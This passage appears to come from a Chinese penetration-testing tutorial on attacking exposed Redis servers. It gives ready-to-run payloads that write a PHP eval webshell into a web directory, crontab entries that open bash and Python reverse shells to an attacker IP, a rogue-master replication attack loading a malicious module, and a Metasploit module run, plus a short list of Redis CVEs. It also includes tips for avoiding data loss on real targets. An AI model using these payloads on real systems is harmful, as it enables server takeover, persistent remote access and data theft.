

##### 3、写入WebShell

- 前置知识：当目标机器存在Web应用服务器，并且知道web应用的`绝对路径`(phpinfo页面泄露、google hacking语法：site:xxx.com warning、site:xxx.com "fatal error"、文件包含漏洞包含配置文件等)，并且有相应的权限就可以使用Redis写入`WebShell`拿到服务器权限(一般情况下只有管理员权限开启的redis才有权限)
- 组合payload写入Webshell

```java
flushall
set x '<?php eval($_GET["Q"]);?>'
config set dir /var/www/html/upload
config set dbfilename test.php
save
```

- 攻击效果

PS：这里注意flushall危险操作，会清空所有缓存数据。

真实环境中肯定不能这样做直接清空数据库缓存数据，为了避免这种情况最好的手段是切换数据库，默认情况下redis有16个数据库默认连接选择的是第一个数据库，这个时候可以选择切换数据库避免flushall危险操作，同时对于keys *操作也尽量避免，当缓存数据很大的时候很容易造成环境崩溃。

- 指令替换思想

```java
flushall--->切换数据库
keys *--->dbsize
```

- 效果

```sql
192.33.6.129:6379> config get databases 
1) "databases" 
2) "16" 
192.33.6.129:6379> select 10 
OK 
192.33.6.129:6379[10]> set Q testing 
OK 
192.33.6.129:6379[10]> del Q 
(integer) 1 
192.33.6.129:6379[10]> DBSIZE 
(integer) 0 
192.33.6.129:6379[10]> SELECT 0
OK 
192.33.6.129:6379>
```

##### 4、写入Crontab定时任务

这种利用方法有点鸡肋，通常只能在CentOS下利用成功，Ubuntu却不可以。因为默认Redis写文件后，因为默认redis写文件后是644的权限，但ubuntu 要求执行定时任务文件`/var/spool/cron/crontabs/`权限必须是600也就是`-rw-------`才会执行，否则会报错`(root) INSECURE MODE (mode 0600 expected)`，而Centos的定时任务文件`/var/spool/cron/`权限644也能执行，并且因为redis保存RDB会存在乱码，在Ubuntu上会报错，而在Centos上不会报错

组合 payload 反弹shell：

```bash
受攻击端：bash -i >& /dev/tcp/192.33.6.129/9999 0>&1
bash -i 创建一个交互式shell    ------->一个命令执行的环境 
>& 将标准输出和标准错误输出重定向到指定的文件当中  
/dev/tcp/192.33.6.129/9999  发起一个网络连接
bash -i >& /dev/tcp/192.33.6.129/9999   0>&1
0>&1  将192.33.6.129/9999  标准输入重定向到了标准输出上
bash -i >& /dev/tcp/192.33.6.129/9999 0>&1

攻击端：nc -lvvp 9999    //监听本地9999端口

# bash反弹 
config set dir /var/spool/cron/
config set dbfilename root 
set x '\n\n*/1 * * * * bash -i >& /dev/tcp/192.33.6.129/9999 0>&1\n\n' 
save 

config set dir /var/spool/cron/ 
config set dbfilename root 
set x '\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.33.6.129/9999 0>&1\n\n' 
save 

# python反弹 
config set dir /var/spool/cron/ 
config set dbfilename root set x "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os,sys;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"192.33.6.129\",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n" 
save
```

PS：写入定时任务这种情况最好放到最后的方法中（对环境有一定的要求！）

### Redis主从复制

#### 原理：

当把数据存储在单个Redis的实例中，当读写体量比较大的时候，服务端就很难承受。为了应对这种情况，Redis就提供了主从模式。主从模式就是指使用一个redis实例作为主机，其他实例都作为备份机，其中主机和从机数据相同，而从机只负责读，主机只负责写，通过读写分离可以大幅度减轻流量的压力，算是一种通过牺牲空间来换取效率的缓解方式。

- 在两个Redis实例设置主从模式的时候，Redis的主机实例可以通过FULLRESYNC同步文件到从机上。在Reids 4.x之后，Redis新增了模块功能，通过外部拓展，可以实现在redis中实现一个新的Redis命令，通过写c语言并编译出.so文件。
- 模拟一个主节点，让从节点获取恶意服务

#### 利用方法：

- 恶意so下载地址：https://github.com/n0b0dyCN/RedisModules-ExecuteCommand



```bash
$ cd redis-rogue-server-master
$ mv redis-rogue-server.py ../RedisModules-ExecuteCommand-master
$ mv module.so exp.so
$ python3 redis-rogue-server.py --rhost 192.168.222.192 --rport 6379 --lhost 192.168.222.134 --lport 4444
```



redis-cli连接靶机运行命令:



**Liqun工具使用：**

得需要在kali上侦听恶意的so：



**MSF直接打：**

注意这里的msf一定要使用sudo的方式运行，不然没有权限去侦听端口。同时需要注意，把之前的实验的payload给删掉，或者重置你的redis。

```bash
use exploit/linux/redis/redis_replication_cmd_exec
set RHOSTS 192.168.222.192
set LHOST 192.168.222.134
set SRVHOST 192.168.222.134
set SRVPORT 4445
run
```


### Redis数据库漏洞

1） redis远程代码执行漏洞（CVE-2016-8339）
影响范围：3.2.x<3.2.4（存在缓冲区溢出漏洞）
漏洞原因：redis数据结构存储的config set命令中的client-output-buffer-limit选项处理存在越界写漏洞，构造的config set命令可导致越界写，代码执行。

2） CVE-2015-8080
影响范围：2.8.x（<2.8.24）、3.0.x（<3.0.6）
漏洞原因：lua_struct.c中存在getnum函数整数溢出，触发基于栈的缓冲区溢出。

3） CVE-2015-4335
影响范围：<2.8.1 、3.0.x（<3.0.2）
漏洞原理：可执行eval命令利用该漏洞执行任意Lua字节码。

4） CVE-2013-7458
漏洞影响：可读取“.rediscli_history”配置文件信息。